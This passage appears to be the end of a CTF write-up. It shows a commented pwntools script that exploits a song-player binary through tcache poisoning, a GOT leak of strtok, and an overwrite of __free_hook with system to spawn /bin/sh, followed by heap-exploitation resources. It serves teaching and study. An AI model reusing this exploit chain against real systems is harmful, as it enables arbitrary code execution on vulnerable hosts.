play_song("23") # F: 0x310 chunk
play_song("31") # G: 0x3c0 chunk
play_song("36") # H: 0x20 chunk
play_song("32") # I: 0x3c chunk
play_song("37") # J: 0x20 chunk

# Allocate chunks for second overflow
play_song("38") # K: 0x20 chunk, used by song #3 to overwrite L 
play_song("34") # L: 0x3c chunk, overwritten w/ ptr to __free_hook

play_song("43") # 0x20, buffer for top chunk

# Fill the 0x20 tcache bin 
remove_song("13") # E
remove_song("12") # B (overwritten by A)
remove_song("11") # A (overflowed)

# Fill the 0x310 tcache bin 
remove_song("23") # F
remove_song("22") # D
remove_song("21") # C (overwritten by A)

# Fill the 0x3c0 tcache bin 
remove_song("31") # G
remove_song("32") # I
remove_song("34") # L (overwritten by K)

# tcache bin 0x20  -> A -> B -> E
# tcache bin 0x310 -> C -> D -> F
# tcache bin 0x3c0 -> L -> I -> G

""" First Heap Overflow """
play_song("44") # Reads from STDIN
#Get A from tcache
p.sendline("-1") # size of "lyrics"
chunkA = p64(0x00) * 2 # Fills chunk A nullbytes
# Overwrites chunk B tcache ptr w/ addr of song[0].fd
chunkB = p64(0x00) + p64(0x21) + p64(0x404078) + p64(0x00)
# Overwrites chunk Z data w/ ""//bin/sh"" and null bytes
chunkZ = p64(0x00) + p64(0x20) + b"//bin/sh" + p64(0x00)
# Overwrites chunk C tcache ptr w/ addr of song[1].lyrics_ptr
chunkC = p64(0x00) + p64(0x311) + p64(0x4040c8) 
# Sends payload
p.send(chunkA + chunkB + chunkZ + chunkC)

# tcache bin 0x20  -> B -> 0x404078 (songs[0].fd)
# tcache bin 0x310 -> C -> 0x404080 (songs[1])
# tcache bin 0x3c0 -> L -> I -> G

# Remove chunks from 0x20 tcache bin
play_song("17") # Removes B
play_song("18") # Removes 0x404078 and memsets songs[0].fd to 0 

# Remove chunk C from 0x310 tcache bin
play_song("27")

# tcache bin 0x20  -> corrupted 
# tcache bin 0x310 -> C -> 0x404c8 (songs[1].lyrics_ptr)
# tcache bin 0x3c0 -> L -> I -> G

""" Write To Songs Array """
play_song("1") # Read from STDIN, songs[0] = song #1
# Get 0x04040b0 from tcache
p.sendline("767") # Give lyrics "size" of 767 (will be given a 0x310 chunk)
# addr of .got:strtok_ptr
strtok_got_addr = p64(0x403fc8)
# Create fake song data for songs #3 and #4
# song     = name       + fd     + dirnameptr    + nameptr + lyricsptr
fake_song = p64(0) * 3 + p64(0) + p64(0x404098) + p64(0)  + p64(0)
# Send payload 
p.send(strtok_got_addr + fake_song * 2)

# tcache bin 0x20  -> corrupted 
# tcache bin 0x310 -> corrupted
# tcache bin 0x3c0 -> L -> I -> G

""" Get libc Address """
play_song("2") # Trigger leak of strtok addr (no heap operation)
# Parse out address leak
strtok = u64(p.readuntil("So").split(b"\n")[-2] + b'\x00\x00')
libc = ELF('./libc-2.27.so') # Load our libc
# Subtract strtok's offset from libc base from the absolute strtok 
# address we leaked to set the libc base address
libc.address = strtok - libc.symbols['strtok'] 
# Get the absolute addresses for __free_hook and system
free_hook = libc.symbols['__free_hook'] 
system_addr = libc.symbols['system']

# Refill the tcache bin for 0x20
remove_song("36") # H
remove_song("37") # J
remove_song("38") # K (overflows in L)

# tcache bin 0x20  -> K -> J -> H
# tcache bin 0x310 -> corrupted
# tcache bin 0x3c0 -> L -> I -> G

""" Second Heap Overflow """
# Reads from STDIN
play_song("3") 
# Get chunk K from tcache
p.sendline("-1")
# Fill chunk K nullbytes
chunkK = p64(0x00) * 2
# Overwrite tcache next ptr in chunk L with __free_hook addr
chunkL = p64(0x00) * 1 + p64(0x3c1) + p64(free_hook) + p64(0x00)
# Send payload 
p.send(chunkK + chunkL)

# tcache bin 0x20  -> J -> H
# tcache bin 0x310 -> corrupted
# tcache bin 0x3c0 -> L -> __free_hook

# Remove L from 0x3c0 tcache bin
play_song("35")

""" Write to free hook """
play_song("4") # Read from STDIN
p.sendline("946") # Get __free_hook from tcache
p.send(p64(system_addr)) # Overwrite with addr of system

# Call free() a.k.a. system() on song 19, which contains "/bin/sh"
remove_song("19")

# SHELL!
p.interactive()
```
# Resources

If you're interested in knowing more about heap attacks Azeria's [post](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/) on the glibc heap is a good place to start, as well as Shellphish's [how2heap](https://github.com/shellphish/how2heap) repository which also links to further resources. 

As mentioned above, [this](https://syedfarazabrar.com/2019-10-12-picoctf-2019-heap-challs/) is a great writeup on other tcache attacks.  

[Good explainer](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) of the GOT and PLT

#####Tools
gef: https://github.com/hugsy/gef
pwngdb: https://github.com/scwuaptx/Pwngdb
pwntools: https://github.com/Gallopsled/pwntools
